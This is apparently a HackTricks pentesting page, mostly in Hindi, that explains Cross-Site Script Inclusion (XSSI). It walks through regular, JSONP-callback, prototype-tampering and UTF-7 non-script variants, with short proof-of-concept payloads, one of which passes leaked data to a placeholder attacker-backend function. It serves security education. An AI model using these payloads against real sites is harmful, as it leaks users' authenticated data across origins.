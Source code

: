 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)** एक सुरक्षा कमजोरी है जो HTML में `script` टैग की प्रकृति से उत्पन्न होती है। अधिकांश संसाधनों के विपरीत, जो **Same-Origin Policy (SOP)** के अधीन होते हैं, स्क्रिप्ट को विभिन्न डोमेन से शामिल किया जा सकता है। यह व्यवहार विभिन्न सर्वरों पर होस्ट की गई लाइब्रेरी और अन्य संसाधनों के उपयोग को सुविधाजनक बनाने के लिए है, लेकिन यह एक संभावित सुरक्षा जोखिम भी प्रस्तुत करता है।

### Key Characteristics of **XSSI**:
- **SOP का बाईपास**: स्क्रिप्ट **Same-Origin Policy** से छूट प्राप्त करती हैं, जिससे उन्हें विभिन्न डोमेन में शामिल किया जा सकता है।
- **डेटा एक्सपोजर**: एक हमलावर इस व्यवहार का लाभ उठाकर `script` टैग के माध्यम से लोड किए गए डेटा को पढ़ सकता है।
- **डायनामिक JavaScript/JSONP पर प्रभाव**: **XSSI** विशेष रूप से डायनामिक JavaScript या **JSON with Padding (JSONP)** के लिए प्रासंगिक है। ये तकनीकें अक्सर प्रमाणीकरण के लिए "ambient-authority" जानकारी (जैसे कुकीज़) का उपयोग करती हैं। जब किसी अन्य होस्ट पर स्क्रिप्ट अनुरोध किया जाता है, तो ये क्रेडेंशियल्स (जैसे कुकीज़) स्वचालित रूप से अनुरोध में शामिल हो जाते हैं।
- **प्रमाणीकरण टोकन लीक**: यदि एक हमलावर किसी उपयोगकर्ता के ब्राउज़र को एक सर्वर से स्क्रिप्ट अनुरोध करने के लिए धोखा दे सकता है, तो वे इन अनुरोधों में निहित संवेदनशील जानकारी तक पहुँच सकते हैं।

### Types

1. **Static JavaScript** - यह XSSI का पारंपरिक रूप है।
2. **Static JavaScript with Authentication** - यह प्रकार विशिष्ट है क्योंकि इसे एक्सेस करने के लिए प्रमाणीकरण की आवश्यकता होती है।
3. **Dynamic JavaScript** - इसमें वह JavaScript शामिल है जो डायनामिक रूप से सामग्री उत्पन्न करता है।
4. **Non-JavaScript** - यह उन कमजोरियों को संदर्भित करता है जो सीधे JavaScript से संबंधित नहीं हैं।

**The following information is a sumary of [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Check it for further details.


### Regular XSSI
इस दृष्टिकोण में, निजी जानकारी एक वैश्विक रूप से सुलभ JavaScript फ़ाइल में एम्बेड की जाती है। हमलावर इन फ़ाइलों की पहचान फ़ाइल पढ़ने, कीवर्ड खोजने, या नियमित अभिव्यक्तियों जैसे तरीकों का उपयोग करके कर सकते हैं। एक बार जब ये फ़ाइलें मिल जाती हैं, तो निजी जानकारी वाली स्क्रिप्ट को दुर्भावनापूर्ण सामग्री में शामिल किया जा सकता है, जिससे संवेदनशील डेटा तक अनधिकृत पहुँच प्राप्त होती है। एक उदाहरण शोषण तकनीक नीचे दिखाई गई है:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI और Authenticated-JavaScript-XSSI
इन प्रकार के XSSI हमलों में संवेदनशील जानकारी को उपयोगकर्ता के अनुरोध के जवाब में स्क्रिप्ट में गतिशील रूप से जोड़ा जाता है। पहचान करने के लिए कुकीज़ के साथ और बिना अनुरोध भेजकर और प्रतिक्रियाओं की तुलना करके किया जा सकता है। यदि जानकारी भिन्न होती है, तो यह संवेदनशील जानकारी की उपस्थिति का संकेत दे सकता है। इस प्रक्रिया को [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) बर्प एक्सटेंशन जैसे उपकरणों का उपयोग करके स्वचालित किया जा सकता है।

यदि संवेदनशील डेटा एक वैश्विक चर में संग्रहीत है, तो इसे नियमित XSSI में उपयोग किए गए समान तरीकों का उपयोग करके शोषित किया जा सकता है। हालाँकि, यदि संवेदनशील डेटा JSONP प्रतिक्रिया में शामिल है, तो हमलावर जानकारी प्राप्त करने के लिए कॉलबैक फ़ंक्शन को हाईजैक कर सकते हैं। यह वैश्विक वस्तुओं में हेरफेर करके या JSONP प्रतिक्रिया द्वारा निष्पादित होने के लिए एक फ़ंक्शन सेट करके किया जा सकता है, जैसा कि नीचे प्रदर्शित किया गया है:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
ग्लोबल नामस्थान में न रहने वाले वेरिएबल्स के लिए, *prototype tampering* कभी-कभी शोषित किया जा सकता है। यह तकनीक JavaScript के डिज़ाइन का लाभ उठाती है, जहाँ कोड व्याख्या में कॉल की गई प्रॉपर्टी को खोजने के लिए प्रोटोटाइप चेन को पार करना शामिल होता है। कुछ फ़ंक्शंस, जैसे `Array` के `slice` को ओवरराइड करके, हमलावर गैर-ग्लोबल वेरिएबल्स तक पहुँच सकते हैं और उन्हें लीक कर सकते हैं:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Further details on attack vectors can be found in the work of Security Researcher [Sebastian Lekies](https://twitter.com/slekies), who maintains a list of [vectors](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
Takeshi Terada का शोध XSSI का एक और रूप प्रस्तुत करता है, जहाँ Non-Script फ़ाइलें, जैसे CSV, को `script` टैग में स्रोत के रूप में शामिल करके क्रॉस-ओरिजिन लीक किया जाता है। XSSI के ऐतिहासिक उदाहरण, जैसे Jeremiah Grossman का 2006 का हमला जो एक पूर्ण Google पता पुस्तक पढ़ने के लिए था और Joe Walker का 2007 का JSON डेटा लीक, इन खतरों की गंभीरता को उजागर करते हैं। इसके अतिरिक्त, Gareth Heyes एक हमले के रूपांतर का वर्णन करते हैं जिसमें UTF-7 एन्कोडेड JSON का उपयोग किया जाता है ताकि JSON प्रारूप से बचा जा सके और स्क्रिप्ट्स को निष्पादित किया जा सके, जो कुछ ब्राउज़रों में प्रभावी है:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
